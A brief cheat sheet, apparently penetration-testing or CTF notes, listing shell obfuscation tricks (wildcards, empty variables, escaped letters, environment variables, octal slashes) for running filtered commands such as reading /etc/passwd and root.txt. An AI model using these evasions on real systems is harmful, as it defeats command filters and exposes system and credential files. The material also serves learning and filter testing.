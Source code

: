 # Escape commands

### Use "?"

```bash
/usr/bin/cat /etc/passwd # Permission denied.
/usr/???/??t /etc/passwd
??t /etc/passwd
```

### Use non-existent variables

```bash
cat /etc/passwd # Permission denied.
c${ASAD}a${KDSFH}t /etc/passwd
```

### Escape letters

```bash
cat /etc/passwd # Permission denied.
\c\a\t /etc/passwd
```

### Use environment variables

For example, if when running `env`, we see a HOME variable that has a slash ("/") as its value, then we can use it to escape that character:

```bash
cat ${HOME}root${HOME}root.txt
```

### Use ASCII

If we cannot enter slashes ("/"), we could do the following:

```bash
ascii -o # We print the ASCII table in octal and look for the slash.
slash=$(printf "\<OCTAL>"); cat "$slash"root"$slash"root.txt
```
